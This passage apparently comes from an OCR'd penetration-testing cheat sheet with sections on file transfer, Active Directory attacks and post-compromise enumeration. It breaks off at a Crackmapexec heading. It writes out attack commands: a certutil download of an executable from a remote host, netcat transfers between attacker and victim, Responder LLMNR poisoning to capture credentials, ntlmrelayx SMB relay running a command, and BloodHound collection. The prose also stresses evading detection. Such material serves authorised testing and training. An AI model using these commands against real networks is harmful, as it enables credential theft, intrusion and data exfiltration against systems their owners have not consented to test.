 Command Examples:

    Linux File Transfer with Netcat:

    bash

nc -lvp 4444 > received_file
nc 192.x.x.x 4444 < file_to_send

Windows File Transfer with Certutil:

bash

    certutil.exe -urlcache -split -f http://192.x.x.x/file.exe file.exe

Methodology and Tactics:
File transfer techniques are crucial for moving tools, exploits, or data between the attacker's and victim's machines. The methodology depends on the environment, with Netcat being a versatile tool for file transfer in Linux environments, while Certutil is often used in Windows environments to download files from a remote server. The tactic is to ensure reliable transfer methods that are less likely to be detected by security tools, allowing the attacker to continue their operations seamlessly.
15. Active Directory Attacks

Key Points:

    LLMNR/NBT-NS Poisoning: Using tools like Responder to capture credentials.

    bash

sudo responder -I eth0 -dwPv

SMB Relay:

bash

    sudo responder -I eth0 -dwPv
    ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"

Methodology and Tactics:
Active Directory (AD) environments are prime targets due to the centralized management of users, groups, and permissions. The methodology involves exploiting trust relationships, misconfigurations, and legacy protocols like LLMNR or SMB that are often enabled in AD environments. LLMNR poisoning allows attackers to intercept and capture credentials by spoofing legitimate responses to network requests. SMB relay attacks can take captured credentials and relay them to other systems to gain unauthorized access. The tactic is to leverage these weaknesses to escalate privileges, gain persistence, and ultimately control AD resources.
16. Post-Compromise Enumeration in AD

Tools and Commands:

    Bloodhound:

    bash

sudo neo4j console
bloodhound-python -d Domain.local -u user -p pass -ns 192.x.x.x -C all

Crackmapexec:

bash
